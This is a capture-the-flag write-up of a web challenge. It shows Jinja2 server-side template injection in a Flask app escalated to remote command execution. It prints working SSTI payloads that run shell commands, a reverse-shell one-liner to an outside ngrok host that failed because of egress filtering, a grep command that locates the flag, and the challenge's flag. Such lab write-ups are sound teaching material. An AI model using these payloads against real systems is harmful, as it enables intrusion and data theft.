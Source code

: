 # FlagAuction

# Description

```
Yay !!! The Flag is on sale !!!! But are you okay with paying the "Gold Price" or will you pay the "Iron Price" ?

https://web.ctf.devclub.in/web/4/
```

# Observation

It presented us with this:

![Welcome](welcome.png)

On clicking any of the link, it appended the product name to `/buy/<:product_name>` route. I opened up my burp to play around with these requests.

Consider me biased, but this application running in Flask (python) pushed me to try SSTI, as it's quite a common vulnerability to be found in applications which use jinja2 as their default templating engine.

![Reflect](reflect.png)

We can see that, we've got successful SSTI, as our payload is being processed by the server. Let's refer to the [ocean of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) for further escalation.

Tired of burp, huh?? Let me introduce my another favourite REST API client, **Thunderbird**. It's a light VSCode extension, so that I won't have to switch windows/tabs while playing around with requests.

# Exploitation

Now, we'll try to escalate our SSTI to RCE, which is generally trivial to see, yet exciting to feel!!

Payload: 
```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('ls -al').read()}}
```

![Listing](list.png)

At this point, my first approach was to start a netcat listener in my local machine, and tunnel the remote connection using TCP sockets to escalate my privileges. 

![Ngrok](ngrok.png)

I tried gaining reverse shell using this payload `sh -i >& /dev/tcp/6.tcp.ngrok.io/18540 0>&1`
, but seemed like the outgoing connections(egress) were restricted or the firewall must be blocking it. 

# Final payload

Now, I thought of grepping the whole file system for the keyword `CTF`, but then the request timed out, so I listed the name of directories in root and partitioned the process of grepping. Finally I got success in the `/srv` directory, which gave out the flag.

```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('find /srv -iname "*" -type f -print0 | xargs -0 grep -H "CTF"').read()}}
```

![flag](flag.png)

This was a again a medium level chall with high points, finding the flag location was quite frustrating, but eventually we got the flag, so the challenge was nice! xD

Flag: ```CTF{jinja_1s_qu1t3_vuln3rabl3}```
